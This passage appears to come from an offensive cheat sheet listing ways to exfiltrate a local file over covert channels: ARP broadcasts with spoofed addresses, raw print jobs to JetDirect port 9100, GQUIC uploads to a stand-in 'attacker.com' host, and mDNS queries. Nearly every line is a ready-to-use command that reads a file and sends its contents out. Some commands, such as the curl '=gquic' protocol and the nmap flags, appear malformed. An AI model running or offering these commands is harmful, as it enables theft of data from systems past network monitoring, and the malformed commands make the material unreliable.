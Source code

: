 2. **Using scapy in Python to send data in ARP broadcast packets:**


`python -c "from scapy.all import *; sendp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op=1, psrc='[spoofed_source_IP]', pdst='[target_IP]', hwsrc='[spoofed_source_MAC]', hwdst='00:00:00:00:00:00', hwtype=0x1)/Raw(load='$(cat /path/to/local/file.txt)'))"`

3. **Using nmap to send data in ARP broadcast packets:**


`echo -n "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} nmap -e [interface_name] --source-ip [spoofed_source_IP] -PR -p [target_IP] -q -c 1 --data {} --script [custom_script]`

### JetDirect 

1. **Using netcat (nc) to send data as a print job to a JetDirect printer:**


`cat /path/to/local/file.txt | nc -w 1 [printer_IP] 9100`

2. **Using Python to send data as a print job to a JetDirect printer:**


`python -c "import socket; sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM); sock.connect(('[printer_IP]', 9100)); sock.sendall(open('/path/to/local/file.txt', 'rb').read()); sock.close()"`

3. **Using telnet to send data as a print job to a JetDirect printer:**


`echo -n "$(cat /path/to/local/file.txt)" | telnet [printer_IP] 9100`

### GQUIC - Google Quick UDP 

1. **Using `curl` with `quiche` to send data over GQUIC:**


`curl --proto '=gquic' --quic-version=h3-23 --data-binary "@/path/to/local/file.txt" "https://attacker.com"`

2. **Using `quiche-client` to send data over GQUIC:**


`quiche-client -q "GET /" -f "/path/to/local/file.txt" https://attacker.com:4433`

3. **Using Python with `aioquic` to send data over GQUIC:**


`python -m aioquic.client https://attacker.com:4433 "/path/to/local/file.txt"`



### MDNS Query

1. **Using `avahi-resolve` on Linux to send data in mDNS queries:**


`echo -n "$(cat /path/to/local/file.txt)" | xargs -I {} avahi-resolve --name "{}.$(cat /path/to/local/file.txt)" -4`

2. **Using `dns-sd` on macOS to send data in mDNS queries:**


`echo -n "$(cat /path/to/local/file.txt)" | xargs -I {} dns-sd -q "{}.$(cat /path/to/local/file.txt)"`
